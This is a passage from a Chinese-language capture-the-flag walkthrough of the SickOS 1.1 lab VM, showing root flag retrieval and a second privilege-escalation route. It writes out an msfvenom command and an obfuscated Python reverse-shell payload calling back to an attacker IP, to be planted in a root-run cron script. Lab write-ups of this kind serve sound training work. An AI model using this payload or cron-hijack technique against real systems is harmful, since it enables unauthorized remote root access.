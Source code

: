 - 读取flag
    
    ```php
    sickos@SickOs:~$ sudo /bin/bash
    root@SickOs:~# 
    //
    root@SickOs:/home# cd /root
    root@SickOs:/root# cat a0216ea4d51874464078c618298b1367.txt 
    If you are viewing this!!
    
    ROOT!
    
    You have Succesfully completed SickOS1.1.
    Thanks for Trying
    ```
    

## 另外一种提权思路

1. 查看定时任务`crontab` ，在`/etc/cron.d/` 里面存在一个`automate`
    
    内容是
    
    ```php
    www-data@SickOs:/etc/cron.d$ cat automate
    //
    * * * * * root /usr/bin/python /var/www/connect.py
    ```
    
    每分钟使用`root`执行`connect.py`
    
2. 可以往`connect.py` 添加反弹`shell`代码
3. 生成`py`的`payload`代码
    
    ```php
    msfvenom -p cmd/unix/reverse_python lhost=192.168.75.131 lport=1235 -f raw
    //
    [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
    [-] No arch selected, selecting arch: cmd from the payload
    No encoder specified, outputting raw payload
    Payload size: 364 bytes
    python -c "exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqFkM0KwjAQhF8l5JSARJNSf5AcilQQUcH2XmyMtFib0E3fX0Paeuxehtn9dge2/ljTOQRGvbVDCC0Qgr60nVEaIHjz0z3yVRlwEvOdYHy9ZZuY8YjjcejvSC6ieGyADFdZEDK45Ficrmk+ZIVedjuciyy/p8mFTutMmbbVyhHicwPvQ+iEGGDP3goC7FU3ujWEBmo1S/BZQkyElf+PMPVoGoKXZd0uocL0C7l5Vrk=')[0])))
    ```
    
    因为crontab执行的是python文件，所以不用exec再套一遍python，所以到的就有
    
    ```php
    exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqFkM0KwjAQhF8l5JSARJNSf5AcilQQUcH2XmyMtFib0E3fX0Paeuxehtn9dge2/ljTOQRGvbVDCC0Qgr60nVEaIHjz0z3yVRlwEvOdYHy9ZZuY8YjjcejvSC6ieGyADFdZEDK45Ficrmk+ZIVedjuciyy/p8mFTutMmbbVyhHicwPvQ+iEGGDP3goC7FU3ujWEBmo1S/BZQkyElf+PMPVoGoKXZd0uocL0C7l5Vrk=')[0])))
    ```
    